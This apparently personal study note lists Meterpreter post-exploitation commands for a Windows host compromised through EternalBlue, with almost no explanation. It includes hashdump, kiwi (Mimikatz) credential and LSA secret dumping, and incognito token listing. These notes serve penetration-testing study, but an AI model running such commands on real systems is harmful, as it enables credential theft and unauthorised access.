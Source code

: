 ```yaml
---
title: 3. Post Exploit Eternal Blue
updated: 2022-08-11T11:14:13.0000000+04:00
created: 2022-08-11T11:07:39.0000000+04:00
---
```


AM
\> getuid

\> sysinfo

\> hashdump

\> shell

\> arp -a

\> netstat -ano (show what ports are open on what they are talking to)

\> ps

\> load

\> load kiwi

\> help

\> cred_all dump

\> lsa_dump_sam

\> lsa_dump_secretes

\> load incognito

\> list_tokens -u
